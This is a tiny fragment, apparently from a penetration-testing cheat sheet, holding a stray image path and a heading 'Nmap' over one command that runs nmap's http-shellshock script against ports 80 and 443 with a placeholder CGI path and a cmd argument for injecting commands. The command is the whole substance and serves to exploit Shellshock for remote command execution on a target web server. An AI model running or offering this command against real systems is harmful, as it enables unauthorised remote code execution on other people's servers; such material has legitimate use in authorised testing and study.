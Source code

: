 # Nmap

`$ nmap -p80,443 --script=http-shellshock --script-args="http-shellshock.uri=/path/to/uri/file.cgi,cmd=<commands>" <IP>`